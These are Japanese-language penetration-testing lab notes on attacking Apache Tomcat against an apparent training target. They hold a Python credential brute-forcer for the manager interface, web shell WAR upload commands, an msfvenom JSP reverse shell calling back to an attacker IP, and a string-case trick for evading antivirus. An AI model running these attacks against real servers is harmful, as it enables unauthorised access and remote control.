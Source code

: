 ```python
    for p in passwords:
        r = requests.get(new_url,auth = (u, p))

        if r.status_code == 200:
            cprint("\n[+] Success!!", "green", attrs = ['bold'])
            cprint("[+] Username : {}\n[+] Password : {}".format(u,p), "green", attrs = ['bold'])
            break
    if r.status_code == 200:
        break

if r.status_code != 200:
    cprint("\n[+] Failed!!", "red", attrs = ['bold'])
    cprint("[+] Could not Find the creds :( ", "red", attrs = ['bold'])
#print r.status_code
```

実行
```sh
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```


### WARファイルアップロード
- Tomcatインストール環境では、アプリケーションを管理するためのGUIインターフェースが提供されている
	- デフォルトで/`manager/html`にあり、manager-guiロールが割り当てられたユーザーのみがアクセス可能
- 有効なマネージャーの認証情報があれば、WARファイルをアップロードして、アプリケーションを乗っ取ることができる
	- WAR（Web Application Archive）は、Webアプリケーションを迅速にデプロイしたり、バックアップとして保存するために使用される

- WARファイルは、zipユーティリティを使って作成して、デプロイする
- `WAR file to deply`でデプロイする
```
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
```

デプロイすると、Manager GUIにアップロードされ、その後、/backupアプリケーションがテーブルに追加される
![](https://i.imgur.com/qFyagPx.png)

そして、アクセスすると、webシェルが動いている
```shell-session
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```

**msfvenomの使用**
- .warファイルは、msfvenomでも作れる
	- 作って、backupファイルにデプロイできる
```shell-session
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```
- このJSPウェブシェルは非常に軽量（1KB未満）で、ブックマークレットやブラウザのブックマークを使って必要なJavaScriptを実行し、UIを動作させる
- これはフットプリントを最小限に抑え、標準的なJSPウェブシェルの検出を回避するための優れた手段
	- コードの一部分を変えるだけで、容易にAVを避けられる
	- 例 : `FileOutputStream(f);stream.write(m);o="Uploaded:`を`FileOutputStream(f);stream.write(m);o="uPlOaDeD:`に変換することでAVの検出率が0になる
